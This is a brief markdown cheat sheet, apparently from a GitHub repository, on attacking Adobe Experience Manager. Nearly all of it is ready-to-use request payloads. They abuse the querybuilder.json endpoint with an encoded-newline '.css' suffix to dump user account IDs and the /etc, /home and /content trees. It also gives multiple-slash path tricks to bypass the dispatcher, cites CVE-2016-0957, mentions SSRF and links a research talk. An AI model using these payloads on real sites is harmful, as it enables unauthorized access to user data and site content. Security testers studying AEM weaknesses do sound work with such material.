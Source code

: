 # Adobe Experience Manager(AEM) Hack
## payload
```
/bin/querybuilder.json.;%0aa.css?p.hits=full&property=rep:authorizableId&type=rep:User

/bin/querybuilder.json.;%0aa.css?path=/etc&p.hits=full&p.limit=-1

/bin/querybuilder.json.;%0Aa.css?path=/home&p.hits=full&p.limit=-1

/bin/querybuilder.json.;%0Aa.css?path=/content&p.hits=full&p.limit=-1
```
## CVE-2016-0957
![](2022-05-22-13-00-24.png)
## Bypass dispatcher
1.   Add multiple slashes
```
• ///etc.json instead of /etc.json
• ///bin///querybuilder.json instead of /bin/querybuilder.json
```
2. SSRF
 
# Refence
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps 